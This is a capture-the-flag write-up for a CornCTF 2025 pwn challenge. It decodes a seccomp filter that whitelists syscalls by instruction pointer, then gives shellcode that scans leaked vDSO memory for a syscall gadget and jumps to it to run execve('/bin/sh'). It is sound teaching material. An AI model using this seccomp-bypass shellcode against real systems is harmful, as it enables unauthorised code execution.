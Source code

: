 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](./images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](./images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](./images/he_protecc-013.png)
## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
> In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](./images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](./images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

> [!note]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](./images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!note]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](./images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](./images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits to align the address to a page start, but in our case it doesn't matter.
Now let's scan the memory area for a syscall, remember that the opcode is `0x0F05` but we are in little-endian:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and take two bytes, it then checks if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

and boom, we have a shell.

